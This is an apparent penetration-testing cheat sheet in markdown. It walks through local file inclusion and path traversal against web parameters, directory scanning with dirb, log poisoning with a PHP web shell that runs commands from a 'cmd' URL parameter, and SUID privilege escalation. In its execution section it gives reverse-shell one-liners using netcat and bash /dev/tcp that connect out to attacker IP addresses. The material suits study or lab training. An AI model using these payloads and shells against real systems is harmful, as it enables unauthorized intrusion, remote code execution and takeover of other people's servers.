

# File Inclusion Attacks

## Locate

1. Examine the URLs of pages on the website.  Look for pages with parameters in the URL, which will be preceded with a `?` or an `&`.  
   Example: http://www.site.com/index.php?param1=page.php&param2=somevalue
2. Some parameters only pass text while others specify pages to include.  The most likely candidates for a path traversal vulnerability will be parameters that are loading a file with an extension.  
3. Test likely parameters by loading known files like `/etc/passwd`.  Remember to prepend this path with `../` to override the current working directory.  It's usually safest to just spam the path with `../` because you can't have too many prepended.
   Example: http://www.site.com/index.php?param1=../../../../../../../etc/passwd

### Web Scanning

Web scanners simply take a wordlist and append it to the end of the specified URL, trying to load the URL and checking the response.   You should always scan web servers to see if there are any unlinked, hidden folders or files.

Wordlists may contain filenames (ex: `file.txt`) and folders.  Understand that the scanner takes whatever is in the wordlist and appends it to the URL to scan. 

By default, dirb scans recursively, which means every folder it finds initiates another full scan of the folder.  A basic scan of one folder (without recursion) can be started with this:

```bash
# Uses /usr/share/dirb/wordlists/common.txt by default
dirb -r http://IP-OR-HOSTNAME/PATH
```

Alternate wordlists can be specified as well:

```bash
# Specify another wordlist
dirb -r http://IP-OR-HOSTNAME/PATH -w PATH_TO_WORDLIST
```

## Inject

There are multiple ways to inject code into a system.  If file uploads are available, you can simply upload a file with the code, but this is rare.  Generally, on-system log files are 'poisoned' with malicious code and those log files are loaded to make the code execute.

1. After discovering a path traversal vulnerability, refer to the enumerated services on the server to discover any log files that may exist.  

2. Use Google to discover the default location of log files.  Most applications include a set of log files such as access and error logs.

3. Use the path traversal to try to load these log files to make sure you can access them.

4. Choose a log file that you can add data to by interacting with the server.  Likely candidates are access logs or auth logs, which will capture the text a client sends to the server.

5. Determine what programming language the web server uses.  Apache general uses PHP while Microsoft IIS uses asp or aspx.  You can also examine the URLs to find extensions that will point you to the language the site uses.

6. Determine what you want to run on the site.  Below is a good block of code to use, which adds a `cmd` parameter to the page that loads it.  You can set this parameter to any command and it will be run.
   *Note: Always surround the code with unique markers to make it easier to find in the logs.*

   ```bash
   [CNM352] <?php echo shell_exec($_GET['cmd']);?> [CNM352]
   ```

7. Reload the log file and look for the markers.  The code will not appear because the page will render it, but if the markers made it in, the code should be there.

## Execute

1. Reload the poisoned file.  If using the code above, specify in the URL a command to run by assigning it to the cmd parameter:
   http://www.site.com/index.php?param1=../../../../../../../mylog.log&cmd=My Command

2. Of the command contains any of the special characters shown below, you may need to encode the command in URL encoding.  Use the 'Encoding' tab of Burp Suite to do this easily, then paste the encoded text after the `cmd=` to run it.
   

3. You can insert reverse shell commands using this cmd parameter as well:

   ```bash
   # If netcat is present
   nc -nv 10.250.226.250 8000 -e /bin/sh
   
   # If netcat is not present
   bash &>/dev/tcp/10.10.14.37/8000 <&1
   ```

# SUID Privilege Escalation

SUID allows a user to run a file as the owner of the file.  For files owned by root, this could present an opportunity for privilege escalation.

1. After gaining shell access, enumerate the system for SUID binaries.  This can be done with an enumeration script to get ideas of which ones are good candidates or it can be done manually with the command: 

   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. Search this site for SUID binaries to see if any provide a privilege escalation path:
   [https://gtfobins.github.io](https://gtfobins.github.io/)

<u>NOTES ON GTFO</u>

- Most of the examples on GTFO create a copy of the binary in the local folder and execute it from the same folder, however, in most cases you will be working with the file in the original location.  So if they preface the binary with `./`, you should omit that so that Linux will run it from the original location (since that file allegedly already has SUID set).
- Be sure to try other commands besides what is listed in the SUID section.  Sometimes you can run the commands listed in the sudo section even if you don't use sudo.
- If GTFO identifies a binary as able to escalate privileges with SUID but the commands fail, do some Googling to find other examples of PrivEsc with your SUID binary.

